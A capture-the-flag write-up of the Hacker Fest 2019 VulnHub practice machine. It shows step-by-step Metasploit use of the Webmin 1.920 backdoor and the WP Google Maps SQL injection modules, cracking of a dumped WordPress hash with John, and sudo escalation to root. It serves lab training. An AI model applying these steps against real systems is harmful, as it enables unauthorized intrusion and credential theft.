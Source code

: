 ```yaml
---
published: true
category: Writeup
title: Hack Fest
author: F3dai
image: https://imgur.com/P67U1JL.png
---
```


The machine was part of my workshop for Hacker Fest 2019 at Prague. Difficulty level of this VM is very “very easy”. There are two paths for exploit it. There are no intentional rabbit holes. There is a "[retracted]" injection (exploit is part of MSF). Recovered credentials (username + hash) can be cracked by John and rockyou.txt wordlist. Low priv shell can be gained through MSF exploit or trying the credentials against "[retracted]". Priv. esc. is simply done by "[retracted]".

**Url**: [HF VulnHub](https://www.vulnhub.com/entry/hacker-fest-2019,378/) 

**Difficulty**: Easy 

**Author**: Martin Haller

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1</pre>
    
![netdiscover](https://imgur.com/7ukhwVk.png)

Then an nmap scan:

<pre>nmap -p- -A 192.168.56.112</pre>

![nmap](https://imgur.com/oJwydwu.png)

### FTP

The port scan reveals ports 21 (ftp), 22 (ssh) and 10000 which seems to be hosting Webmin. I will attempt to connect via FTP via Anonymous. This was an extremely easy way to gain access to all the wordpress websites files, however I will be exploring other methods which require more exploitation. 

![ftp](https://imgur.com/HMUog0K.png)

Some simple enumeration and an understanding of back end web apps will get you the right information.

### Webmin

Some research shows a Webmin 1.920 vulnerability. I use searchsploit to find these vulnerabilities. 
I am particularly interested in the Unauthenticated Remote Code Execution. 

![ss](https://imgur.com/LXDbbsN.png)

On metasploit console, we use the webmin exploit and fill out the necessary options as demonstrated below:

<pre>msfconsole
use exploit/linux/http/webmin_backdoor
show options
set rhosts 192.168.56.112
set ssl true
set lhost 192.168.56.101</pre>

![msf](https://imgur.com/82fsLmB.png)

The exploit is ready to go.

<pre>exploit
id</pre>

![root](https://imgur.com/S4YAYol.png)

Root access.

### Wordpress

Another attack vector is the Wordpress site on port 80.

![wordpress](https://imgur.com/QQEnpNS.png)

WPScan will be used to find any vulnerabilities and possible users on the website. Please note that you use a WPScan API Token from [here](https://wpvulndb.com) to view the vulnerable data.

<pre>wpscan --url http://192.168.56.112/ -e vp,u</pre>

![wpscan](https://imgur.com/RGq0tck.png)

After some research, the [Unauthenticated SQL Injection vulnerability](https://www.rapid7.com/db/modules/auxiliary/admin/http/wp_google_maps_sqli) seems like the best route to go down. There is a Metasploit module for this. 

Something else to note is the username 'webmaster' found on the Wordpress site. 

<pre>msfconsole
use auxiliary/admin/http/wp_google_maps_sqli
show options
set RHOSTS 192.168.56.112</pre>

![msfwp](https://imgur.com/0meG4gb.png)

The exploit has been correctly set up. Run the exploit.

<pre>exploit</pre>

![exploit](https://imgur.com/ppsBmh8.png)

A hash value has been returned with the correct username that was found before on the WPScan results.

<pre> 192.168.56.112:80 - Found webmaster $P$BsqOdiLTcye6AS1ofreys4GzRlRvSr1 webmaster@none.local </pre>

Let's ask our friend John to crack it. Use rockyou.txt as the wordlist.

<pre>echo "$P$BsqOdiLTcye6AS1ofreys4GzRlRvSr1" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt</pre>

![john](https://imgur.com/anjD7Hz.png)

The password "kittykat1" has been returned.

Let's try connect via ssh:

<pre>ssh webmaster@192.168.56.112
kittykat1</pre>

![ssh](https://imgur.com/cR73wtu.png)

We are logged in as webmaster. 
Check the sudo privileges with the following command:

<pre>sudo -l</pre>

This user is basically already root so let's just change to root shell with the following:

<pre>sudo -i</pre>

And we are root.

![root](https://imgur.com/Xti6L5k.png)
